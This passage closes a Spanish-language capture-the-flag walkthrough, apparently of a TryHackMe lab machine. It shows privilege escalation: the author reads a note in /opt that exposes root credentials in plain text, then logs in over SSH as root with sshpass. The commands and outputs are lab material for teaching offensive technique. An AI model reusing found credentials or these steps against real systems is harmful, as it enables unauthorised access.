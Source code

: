 Si vemos la ip que tenemos, nos damos cuenta que el servicio como vimos en la nota esta corriendo en un contenedor.
```bash
jenkins@jenkins:/$ hostname -I
172.17.0.2 
```
## Escalada de privelegios
Si volvemos a listar el contenido del directorio /opt vemos que han dejado una nota.
```bash
jenkins@jenkins:/$ ls -la /opt/
total 12
drwxr-xr-x 1 root root 4096 Aug  3  2020 .
drwxr-xr-x 1 root root 4096 Aug  3  2020 ..
-rw-r--r-- 1 root root  204 Aug  3  2020 note.txt
```
Si vemos su contenido nos dan la contraseña de root en texto claro.

```bash
jenkins@jenkins:/$ cat /opt/note.txt 
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```
Esta contraseña no es del usuario root del contenedor si no del usuario root de la maquina real.
```bash
❯ sshpass -p 'tr0ub13guM!@#123' ssh root@internal.thm
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Apr 20 23:06:04 UTC 2023

  System load:  0.0               Processes:              116
  Usage of /:   63.7% of 8.79GB   Users logged in:        0
  Memory usage: 43%               IP address for eth0:    10.10.76.45
  Swap usage:   0%                IP address for docker0: 172.17.0.1

  => There is 1 zombie process.


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Apr 20 23:05:54 2023 from 10.8.47.45
root@internal:~# id
uid=0(root) gid=0(root) groups=0(root)
root@internal:~# 
```
Gracias por leer.